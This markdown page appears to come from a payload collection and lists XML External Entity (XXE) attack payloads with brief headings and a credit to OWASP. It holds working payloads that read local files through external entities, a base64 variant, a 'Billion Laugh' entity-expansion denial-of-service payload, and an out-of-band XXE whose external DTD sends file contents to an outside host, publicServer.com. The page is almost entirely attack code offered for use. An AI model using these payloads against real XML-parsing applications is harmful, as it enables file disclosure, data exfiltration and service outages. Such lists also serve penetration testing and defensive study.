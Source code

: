 # XML External Entity
An XML External Entity attack is a type of attack against an application that parses XML input	

## Exploit

Basic Test
```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

Classic XXE
```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///sys/power/image_size">
]>
<data>&file;</data>
```

Classic XXE Base64 encoded
```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,PCFF...Cg=="> %init; ]><foo/>
```

Deny Of Service - Billion Laugh Attack
```
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```


XXE OOB Attack (Yunusov, 2013)
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```


## Thanks to
* https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing